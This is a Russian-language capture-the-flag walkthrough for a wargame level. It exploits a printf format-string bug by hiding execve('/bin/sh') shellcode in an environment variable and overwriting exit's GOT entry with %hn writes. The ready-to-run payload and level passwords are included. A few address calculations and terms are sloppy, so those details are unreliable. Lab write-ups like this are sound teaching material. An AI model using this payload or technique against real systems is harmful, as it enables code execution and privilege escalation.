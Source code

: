 ## HowTo

```bash
> su level05
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

### Инструменты:
- Ida Pro + hex rays
- gdb + peda


**NB:** Для работы с файлом стягиваем его на локальную машину

### Анализ и ход решения
1. В си-представлении видно, что бинарь не содержит скрытых функций или чего-то другого, 
что мы могли бы использовать
2. По сути, мы имеем функцию to_upper, которая в конце работы печатает получившийся буффер через `printf`
3. После печати происходит выход через `exit()`
4. Анализ asm показывает, что используется динамическая линковка

[обзорная статья про взломы PLT, GOT](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)
```bash
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
```

`exit@plt` - динамическая линковка функции, на старте исполнения `+0` 
происходит обращение к `GOT` (`Global offset table`) для поиска адреса функции в `libc`. 
`jmp *0x80497e0` означает, что наша функция находится по этом адресу


5. Также мы знаем, что `printf` имеет уязвимость с модификатором `%n` - 
передав указатель мы можем записать число напечатанных символов в адрес

**Идея взлома**
- использовать переменную окружения для размещения шелкода
- подменить адрес по адресу `*0x80497e0` указатель на `exit` на указатель на наш шеллкод
- будем использовать шеллкод, вызывающий `system(/bin/sh)`

### Ход взлома
1. Готовим шеллкод, используем массив NOP-инструкций для упрощения адресации
```bash
export SHELLCODE=`python -c 'print("\x90" * 0xffff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```
2. Мы уже знает адрес `exit` - `*0x80497e0`
3. Найдем позицию буффера, среди аргументов `printf`

обнаруживаем начало буфера на 10-м индексе
```bash
> for ((i=1; i<20;i++)); do echo "idx $i" && ./level05 <<< "aaaabbbb %$i\$x"; done
...
index 10
aaaabbbbcccc 61616161
index 11
aaaabbbbcccc 62626262
index 12
aaaabbbbcccc 63636363
...
```

4. Надем адрес переменнй с шеллкодом (за счет большого числа nop-инструкций, у нас диапозон адресов)
```bash
> b *main+1
> run
> x/50s *((char**)environ)
...
0xfffdd802 - 0xfffe4ada
...
```

5. Любой из этих адресов в инт-представлении слишком велик, чтобы поместиться в 4 байта (у нас 32-система).
Поэтому попробуем разбить его на старший и младший бит и использовать уязвимость `%n` дважды
6. Старший бит для адреса exit `\xe0\x97\x04\x08`, младший - `\xe2\x97\x04\x08` (`e2-e0`)
7. Выберем произвольный адрес из диапозона `0xfffdd802 - 0xfffdfcba: 0xffffef808`
8. Разобьем его на старший и младший биты. Из младшего вычтем 8 байт,
т.к. мы записываем 1 адрес и не хотим учитывать 8 байт давжды
```bash
0xffffef808
f808 - 8 == 63496 - 8 == 63488

fffe = 65534
65534 - 63496 == 2038 (вычтем первый заполнитель) 
```

9. Готовим payload
- `"\xe0\x97\x04\x08"` - старший бит адреса exit
- `"\xe2\x97\x04\x08"` - младший бит адреса exit
- `"%63488d%10$hn"` - первый аргумент. `10` позиция, `%hn` - используем `h` для явного указания размера указателя
- `"%2038d%11$hn"` - второй агрумент. `11` позиция

```bash
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%63488d%10$hn" + "%2038d%11$hn")'; cat) | ./level05
> whoami
level06
> pwd
/home/users/level05
> cd ../level06	
> cat .pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
